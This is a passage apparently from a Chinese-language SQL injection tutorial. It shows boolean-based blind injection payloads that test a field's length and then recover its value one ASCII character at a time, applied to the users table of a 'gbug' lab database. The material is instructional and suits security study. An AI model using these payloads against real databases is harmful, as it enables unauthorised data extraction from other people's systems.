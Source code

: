#### 判断数据内容长度

```mysql
AND ((SELECT LENGTH(字段名) FROM 数据库名.表名 limit 第x条数据,1)=4)
```

```
gbug 数据库的users表中username字段的数据内容长度为 4
```

![image-20250222022035693](static/image/image-20250222022035693.png)

#### 判断数据内容

```mysql
AND ((SELECT ASCII(SUBSTR(字段名,第x位,1)) FROM 数据库名.表名 limit 第x条数据,1)=ascii码)
```

```
ascii码 103 对应的字符是 g，数据库 gbug的users表中第一条数据的username字段的完整数据内容是 gbug，第一位是 g
```
